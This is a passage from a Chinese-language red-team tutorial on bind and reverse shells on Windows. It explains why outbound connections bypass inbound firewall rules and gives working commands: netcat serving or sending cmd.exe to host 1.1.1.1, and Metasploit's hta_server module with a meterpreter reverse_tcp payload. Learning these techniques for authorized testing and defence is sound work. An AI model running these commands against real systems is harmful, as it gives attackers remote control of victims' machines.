 反弹 Shell（Reverse Shell）分正向和反向，正向是目标机器开放入口等待主动连接，我们连接成功后拿到 Shell，如 Web Shell。一旦涉及到弹系统 Shell 则较麻烦，目标防火墙入站不接受日常服务——SSH、HTTP、HTTPS 以外规则访问，导致无法连接成功。

```bash
Client -> Firewalld -> Server
```

反向则是目标机器将自己 Shell 交出来主动连接我们服务器。只要目标机器能够外连互联网机器即可，这种情况避免了入站流量被阻断的情况，一般来说出站流量不会收到限制。

```bash
Server -> Firewalld -> Client
```

### 2.1 Windows

#### 2.1.1 Netcat⚒️

正向连接

服务端监听。将 cmd 重定向到 6666 端口。

```bash
nc -lvp 6666 -e cmd.exe
```

客户端连接。

```bash
nc 1.1.1.1 6666
```

反向连接。

服务端主动连接客户端。主动将 cmd.exe 传递到 1.1.1.1 7777 端口

```bash
nc -e cmd.exe 1.1.1.1 7777
```

客户端等待连接

```bash
nc -lvp 7777
```

#### 2.1.2 HTA

相关原理见 [Red Team: Infrastructure - HTML Application（HTA）](https://www.raingray.com/archives/4385.html#HTML+Application%EF%BC%88HTA%EF%BC%89)

1.MSF 托管 hta 服务。

msf 开启 Web 服务，在里面存放应用，将自动给出 URL 链接。

```bash
use exploit/windows/misc/hta_server
set srvhost <Host>
set payload windows/x64/meterpreter/reverse_tcp 
set target 1  // 设置目标系统类型为 x64，0 是 x86
exploit -j
```
